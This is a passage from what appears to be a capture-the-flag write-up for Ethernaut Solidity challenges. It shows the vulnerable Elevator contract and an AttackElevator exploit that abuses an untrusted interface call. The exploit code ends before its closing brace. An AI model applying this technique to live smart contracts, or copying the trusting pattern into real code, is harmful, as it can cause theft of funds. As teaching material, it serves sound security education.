 \
The famous DAO hack used reentrancy to extract a huge amount of ether from the victim contract. See [15 lines of code that could have prevented TheDAO Hack](https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942).

# 11. Elevator
### Challenge
- Make `top` in the `Elevator` contract true.
### Purpose
Never trust a contract address without verifying its source code.
### Contract
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```
### Solution
##### Explanation
The `goTo` function in `Elevator` uses the `Building` interface which doesn't have an implementation and blindly uses the method `isLastFloor`. We need to create a contract that adheres to the interface but gives the implementation that returns false for the first call of `isLastFloor` and true for the remaining to clear this level.
##### Exploit
```
contract AttackElevator {
    Elevator public target;
    uint256 public floor;

    constructor(Elevator _target) {
        target = _target;
    }

    function isLastFloor(uint256 _floor) external returns(bool) {
        
            floor++;
            return floor > 1;
    }

    function attack() external {
        target.goTo(1);
        require(target.top(), "Attack failed");
    }
```